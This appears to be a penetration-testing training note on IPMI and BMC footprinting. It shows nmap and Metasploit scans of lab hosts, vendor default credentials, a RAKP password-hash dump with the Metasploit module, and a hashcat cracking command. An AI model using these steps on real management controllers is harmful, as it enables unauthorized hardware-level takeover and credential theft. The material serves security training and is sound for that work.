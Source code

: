 `Intelligent Platform Management Interface (IPMI)` is a standardized hardware-level management interface used for remote system monitoring and control. It functions as an independent subsystem separate from the host’s BIOS, CPU, firmware, and operating system. This allows administrators to manage or troubleshoot systems even when they are powered off or unresponsive.

It operates through a direct network connection to the system’s hardware, without requiring OS-level access or user login. `IPMI` enables tasks like remote BIOS configuration, firmware updates, and full system power management.

It is commonly used:

- Before the operating system boots to modify BIOS or firmware settings
- When the host is powered down for remote startup or diagnostics
- After a system failure to perform recovery or analysis
    

Beyond power and configuration control, `IPMI` can monitor system metrics such as temperature, voltage, fan speeds, and power supply status. It also supports querying hardware inventory, retrieving logs, and generating `SNMP` alerts.

For proper functionality, the IPMI controller (typically a `BMC` — Baseboard Management Controller) must have both constant power and a network connection, even if the host system itself is powered off.

The `IPMI` protocol was introduced by Intel in 1998 and has since gained support from more than 200 vendors, including Cisco, Dell, HP, Supermicro, and Intel. Systems running `IPMI` version 2.0 can be managed through **Serial over LAN (SoL)**, allowing administrators to access serial console output remotely over the network.

To operate, `IPMI` requires several core components:

- `Baseboard Management Controller (BMC)` – The microcontroller responsible for managing the system’s sensors, power, and remote control functions. It serves as the foundation of the `IPMI` architecture.
- `Intelligent Chassis Management Bus (ICMB)` – Provides communication between multiple chassis within a system or rack.
- `Intelligent Platform Management Bus (IPMB)` – Extends the `BMC` by enabling communication with additional management controllers or sensors.
- `IPMI Memory` – Stores data such as the system event log, hardware inventory, and repository records.
- `Communication Interfaces` – Include local interfaces, serial and LAN connections, `ICMB`, and the PCI Management Bus, enabling external management and monitoring access.

---

# Footprinting the Service 

`IPMI` communicates over UDP port `623`. Systems that implement `IPMI` are `BMCs` (Baseboard Management Controllers), commonly embedded ARM systems running `Linux` and attached directly to the motherboard; they may be built into the board or provided as a PCI card. Common vendor implementations encountered during internal assessments include `HP iLO`, `Dell iDRAC`, and `Supermicro IPMI`.

If you gain access to a `BMC` you effectively have hardware-level control of the host: monitor sensors, reboot, power off, or reinstall the OS — equivalent to physical access. Many `BMCs` expose a web management console plus remote access protocols such as `SSH` or `Telnet`, and always expose the `IPMI` protocol on `UDP/623`.

```bash
OathBornX@htb[/htb]$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local

Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 21:48 GMT
Nmap scan report for ilo.inlanfreight.local (172.16.2.2)
Host is up (0.00064s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version:
|   Version:
|     IPMI-2.0
|   UserAuth:
|   PassAuth: auth_user, non_null_user
|_  Level: 2.0
MAC Address: 14:03:DC:674:18:6A (Hewlett Packard Enterprise)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
```

Here, we can see that the IPMI protocol is indeed listening on port 623, and Nmap has fingerprinted version 2.0 of the protocol.
#### Metasploit Version Scan

```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads


msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
[+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

During internal penetration tests, we often find BMCs where the administrators have not changed the default password. Some unique default passwords to keep in our cheatsheets include:

|Product|Username|Password|
|---|---|---|
|Dell iDRAC|root|calvin|
|HP iLO|Administrator|randomized 8-character string consisting of numbers and uppercase letters|
|Supermicro IPMI|ADMIN|ADMIN|
Always test known `default passwords` for any discovered services; these are often left unchanged and yield quick access. For `BMCs`, try vendor default credentials to gain the `web console` or command-line access via `SSH` or `Telnet`.

---

# Dangerous Settings

`If default credentials fail for a` BMC`, exploit the` RAKP `weakness` IPMI 2.0`: during authentication the server reveals a salted` SHA1`/`MD5 `derivative of the password which lets you extract an account's password hash. These hashes are crackable offline with` Hashcat `(`mode 7300``) using dictionary or mask attacks.

Example mask attack for an eight-character HP iLO default-style password: `hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u`

There is no protocol-level patch because the weakness is inherent to the spec; mitigations are operational: enforce very long, high-entropy passwords and restrict `BMC` network access via segmentation and ACLs.

Do not ignore `IPMI` on internal engagements — it yields high-risk, hardware-level control. Cracked `BMC` credentials are frequently re-used across infrastructure and can directly lead to `SSH` or web-console compromise, lateral access, and full host recovery operations.

To retrieve IPMI hashes, we can use the Metasploit [IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/) module.

```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```